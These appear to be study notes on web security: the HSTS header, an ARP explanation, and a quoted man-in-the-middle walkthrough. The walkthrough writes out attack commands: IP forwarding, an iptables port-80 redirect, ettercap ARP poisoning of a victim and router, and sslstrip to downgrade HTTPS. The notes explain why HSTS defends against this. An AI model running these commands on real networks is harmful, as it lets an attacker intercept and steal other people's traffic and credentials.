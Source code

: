 __HSTS header__
https://gist.github.com/bartekn/6924685

`Strict-Transport-Security: max-age=31536000`

> HTTP Strict Transport Security (HSTS) is an opt-in security enhancement that is specified by a web application through the use of a special response header. Once a supported browser receives this header that browser will prevent any communications from being sent over HTTP to the specified domain and will instead send all communications over HTTPS. It also prevents HTTPS click through prompts on browsers.

__MITM attacks__

> First I turned IP forwarding on so that my computer can act as a router and route traffic to other destinations: 
attacker@linux:/#: echo 1 > /proc/sys/net/ipv4/ip_forward 
I setup setup my firewall tables to NAT all incoming TCP traffic received over port 80 to be redirected out port 10000:
attacker@linux:/#: iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000 
Then, I used ettercap to perform ARP poisoning on the victim's router so that all traffic being sent to my victim will first be sent to me: 
attacker@linux:/#: ettercap -Tq -i eth0 -M arp:remote /victim's IP/ /router's IP/ 
I used the python program SSLstrip that Moxie Marlinspike created to make the HTTPS to HTTP substitutions and keep track of the changes make: 
attacker@linux:/#: python sslstrip.py -a

__ARP__

http://www.watchguard.com/infocenter/editorial/135324.asp

1. An ARP Request. Computer A asks the network, "Who has this IP address?"
2. An ARP Reply. Computer B tells Computer A, "I have that IP. My MAC address is [whatever it is]."
3. A Reverse ARP Request (RARP). Same concept as ARP Request, but Computer A asks, "Who has this MAC address?"
4. A RARP Reply. Computer B tells Computer A, "I have that MAC. My IP address is [whatever it is]"

ARP poisoning
* The hacker begins by sending a malicious ARP "reply" (for which there was no previous request) to your router. ( router thinks the hacker's computer is your computer)
* Next, the hacker sends a malicious ARP reply to your computer, associating his MAC Address with 192.168.0.1.  (your machine thinks the hacker's computer is your router)
